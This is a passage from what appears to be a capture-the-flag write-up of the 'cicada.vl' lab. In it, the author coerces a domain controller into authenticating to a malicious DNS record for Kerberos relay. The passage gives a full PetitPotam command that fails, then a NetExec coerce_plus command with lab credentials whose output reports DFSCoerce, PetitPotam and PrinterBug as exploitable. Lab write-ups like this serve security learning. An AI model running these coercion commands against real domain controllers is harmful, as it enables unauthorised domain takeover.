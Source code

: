 ### Coercing the DC

Finally, I use `Petitpotam` to coerce authentication from the Domain Controller. Instead of using my attacker IP, I target the malicious DNS record I created earlier. This forces the DC to resolve the fake hostname and send its authentication request directly to my waiting relay.

```
# KRB5CCNAME=rosie.powell.ccache petitpotam.py -d "cicada.vl" "DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" "DC-JPQ225.cicada.vl" -k

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



Trying pipe lsarpc
[-] Connecting to ncacn_np:DC-JPQ225.cicada.vl[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
Something went wrong, check error status => Bind context rejected: invalid_checksum
```

That didn't work. Petitpotam fails unexpectedly, returning an `invalid_checksum` error after a successful bind. Rather than debugging the Kerberos issue, I'll pivot and try coercing authentication with `NetExec` instead.

```bash
# nxc smb DC-JPQ225.cicada.vl -u 'rosie.powell' -p 'Cicada123' -k -M coerce_plus -o LISTENER='DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA'
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\rosie.powell:Cicada123 
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, DFSCoerce
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        Exploit Success, netdfs\NetrDfsRemoveRootTarget
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        Exploit Success, netdfs\NetrDfsAddStdRoot
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        Exploit Success, netdfs\NetrDfsRemoveStdRoot
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, PetitPotam
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        Exploit Success, efsrpc\EfsRpcAddUsersToFile
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, PrinterBug
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        Exploit Success, spoolss\RpcRemoteFindFirstPrinterChangeNotificationEx
```

